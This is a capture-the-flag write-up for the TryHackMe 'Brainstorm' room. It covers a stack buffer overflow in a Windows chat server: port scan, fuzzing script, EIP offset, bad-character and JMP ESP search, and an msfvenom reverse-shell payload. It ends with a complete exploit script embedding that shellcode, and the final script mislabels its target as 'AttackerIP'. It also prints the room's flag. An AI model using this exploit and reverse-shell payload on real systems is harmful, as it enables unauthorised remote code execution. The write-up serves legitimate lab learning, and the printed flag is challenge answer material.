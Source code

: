 ###### Reverse engineer a chat program and write a script to exploit a Windows machine.
Room: https://tryhackme.com/room/brainstorm
##

**sudo nmap** -sS -sV -T5 -vv xx.xx.xx.xxx
```
PORT     STATE SERVICE    REASON          VERSION
21/tcp   open  ftp        syn-ack ttl 127 Microsoft ftpd
3389/tcp open  tcpwrapped syn-ack ttl 127
9999/tcp open  abyss?     syn-ack ttl 127
```
We assume that the app is running on port 9999.  
We can access the FTP anonymously.  

We can find the app's executable file and a dll required for it to run.  
Once we download these, we can set up a 32 bit windows VM to run the app.  
Note: use the **binary** mode to download the files from FTP. May get corrupted with ascii.  

By playing around a bit, we can see that we can crash the app by sending a long enough message.  
Using the following script, we can see that the app crashes at around ~2250-2500 bytes.   

```
#!/usr/bin/env python3

import socket, time, sys

name = "randomname"

timeout = 5
string = "A" * 250

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect(('TargetIP', 9999))
      s.send(bytes(name, "latin-1"))
      s.recv(1024)
      print("{} bytes".format(len(string)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print(" crashed @ {} bytes".format(len(string)))
    sys.exit(0)
  string += 250 * "A"
  time.sleep(1)
```

**msf-pattern_create -l 2400** and send the output as a message into the app.  
EIP register holds the value **31704330** at the moment of the crash.  

**msf-pattern_offset -l 2400 -q 31704330** returns 2012. That's the offset of the **31704330** sequence in our pattern.  
This means that we can control the Instruction Pointer, since we know that the next 4 bytes after the 2012nd byte will be written directly to EIP.  

**exploit.py - current stage**
```
import socket
import sys

username = b"abcdef"
msg = b"A" * 2012 + b"B"*4

try:
	print("sending ... ")
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('TargetIP',9999))
	s.recv(1024)
	s.recv(1024)
	s.send(username + b'\r\n')
	s.recv(1024)
	s.send(msg + b'\r\n')
	s.recv(1024)
	s.close()

except:
	print("a bubuit")
	sys.exit()

```
By running the exploit at the current stage, we can see that the EIP value is indeed 4 B's (or 42424242) in hex.  

Next, we need to find the bad characters in order to be able to exploit this.    
Use the following lines of code to generate a list of characters from x01 to xff.  
```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

We can add them into our code in a variable called **badchars**.  
Then, at the last send, we send the badchars with the message.  

On the target machine, in Immunity Debugger, run the following command.  
> !mona bytearray -b "\x00"  

After running the script again, the app should crash as usual.  
However, we can compare our list of badchars with the bytearray generated by mona.  
> !mona compare -f path/to/bytearray.bin -a Addr_Of_ESP_when_app_crashed
  
In this case, we see that the output is **unmodified** which means that there are no bad chars.  
Let's find a jump instruction we can use to go to our payload.  (Make sure the app is crashed)

> !mona jmp -r esp -cpb "\x00"

Pick any address from the ones shown in the output.  
Update the **msg** variable in the exploit to concatenate the jump address written backwards (since it's little endian architecture).  
> msg = b"A" * 2012 + b"\xdf\x14\x50\x62"

Generate a payload using 
**msfvenom** -p windows/shell_reverse_tcp LHOST=AttackingIP LPORT=6666 EXITFUNC=thread -b "\x00" -f c

Create a variable called payload in the script and assign its value to the output of the payload created via msfvenom.  
Finally, add some NOPs (No Operation) to the message. "\x90" * 32 seems to be enough.

**final exploit.py**
```
import socket
import sys

username = b"randomname"
msg = b"A" * 2012 + b"\xdf\x14\x50\x62" + b"\x90" * 32
payload = (b"\xda\xce\xd9\x74\x24\xf4\x5e\xbf\x50\xf2\x6b\x80\x29\xc9\xb1"
b"\x52\x31\x7e\x17\x83\xee\xfc\x03\x2e\xe1\x89\x75\x32\xed\xcc"
b"\x76\xca\xee\xb0\xff\x2f\xdf\xf0\x64\x24\x70\xc1\xef\x68\x7d"
b"\xaa\xa2\x98\xf6\xde\x6a\xaf\xbf\x55\x4d\x9e\x40\xc5\xad\x81"
b"\xc2\x14\xe2\x61\xfa\xd6\xf7\x60\x3b\x0a\xf5\x30\x94\x40\xa8"
b"\xa4\x91\x1d\x71\x4f\xe9\xb0\xf1\xac\xba\xb3\xd0\x63\xb0\xed"
b"\xf2\x82\x15\x86\xba\x9c\x7a\xa3\x75\x17\x48\x5f\x84\xf1\x80"
b"\xa0\x2b\x3c\x2d\x53\x35\x79\x8a\x8c\x40\x73\xe8\x31\x53\x40"
b"\x92\xed\xd6\x52\x34\x65\x40\xbe\xc4\xaa\x17\x35\xca\x07\x53"
b"\x11\xcf\x96\xb0\x2a\xeb\x13\x37\xfc\x7d\x67\x1c\xd8\x26\x33"
b"\x3d\x79\x83\x92\x42\x99\x6c\x4a\xe7\xd2\x81\x9f\x9a\xb9\xcd"
b"\x6c\x97\x41\x0e\xfb\xa0\x32\x3c\xa4\x1a\xdc\x0c\x2d\x85\x1b"
b"\x72\x04\x71\xb3\x8d\xa7\x82\x9a\x49\xf3\xd2\xb4\x78\x7c\xb9"
b"\x44\x84\xa9\x6e\x14\x2a\x02\xcf\xc4\x8a\xf2\xa7\x0e\x05\x2c"
b"\xd7\x31\xcf\x45\x72\xc8\x98\x63\x8a\xd6\xb1\x1c\x8e\xd6\x5b"
b"\xd7\x07\x30\x31\xf7\x41\xeb\xae\x6e\xc8\x67\x4e\x6e\xc6\x02"
b"\x50\xe4\xe5\xf3\x1f\x0d\x83\xe7\xc8\xfd\xde\x55\x5e\x01\xf5"
b"\xf1\x3c\x90\x92\x01\x4a\x89\x0c\x56\x1b\x7f\x45\x32\xb1\x26"
b"\xff\x20\x48\xbe\x38\xe0\x97\x03\xc6\xe9\x5a\x3f\xec\xf9\xa2"
b"\xc0\xa8\xad\x7a\x97\x66\x1b\x3d\x41\xc9\xf5\x97\x3e\x83\x91"
b"\x6e\x0d\x14\xe7\x6e\x58\xe2\x07\xde\x35\xb3\x38\xef\xd1\x33"
b"\x41\x0d\x42\xbb\x98\x95\x62\x5e\x08\xe0\x0a\xc7\xd9\x49\x57"
b"\xf8\x34\x8d\x6e\x7b\xbc\x6e\x95\x63\xb5\x6b\xd1\x23\x26\x06"
b"\x4a\xc6\x48\xb5\x6b\xc3")
try:
	print("sending ... ")
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('AttackerIP',9999))
	s.recv(1024)
	s.recv(1024)
	s.send(username + b'\r\n')
	s.recv(1024)
	s.send(msg + payload + b'\r\n')
	s.recv(1024)
	s.close()

except:
	print("a bubuit")
	sys.exit()
```

Start a listener. Run the script.  
Get a reverse shell & the flag.  

Flag is in **root.txt**, 5b1001de5a44eca47eee71e7942a8f8a. **[1]**.  
